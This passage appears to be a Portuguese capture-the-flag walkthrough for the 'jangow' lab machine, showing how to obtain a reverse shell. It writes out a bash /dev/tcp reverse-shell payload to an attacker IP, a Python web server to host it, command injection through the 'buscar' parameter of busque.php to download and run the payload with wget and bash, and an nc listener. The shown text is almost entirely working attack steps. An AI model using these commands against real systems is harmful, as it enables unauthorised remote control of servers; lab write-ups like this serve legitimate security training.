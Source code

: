 


Crie um arquivo para executar o Shell reverso no nosso alvo:
~~~
nano remote
~~~
Conteúdo:<br>
Obs: substitua o IP 192.168.122.138 pelo seu endereço
~~~
/bin/bash -i > /dev/tcp/192.168.122.138/443 0<&1 2>&1

~~~





Abrir o listen no seu host no para disponibilizar o script para o alvo (há diversas formas para tal, use a criatividade):
~~~
python3 -m http.server 443
~~~
No navegador, baixar o arquivo no alvo:

~~~
http://jangow/site/busque.php?buscar=wget http://192.168.122.138:443/remote

~~~



Aguardar o shell:
~~~
nc -lnvp 443
~~~

No navegador, executar o reverse shell:

~~~
http://jangow/site/busque.php?buscar=bash remote

~~~
![alt text](https://github.com/jandercalmeida/jangow/blob/main/images/output_reverse_shell.png)
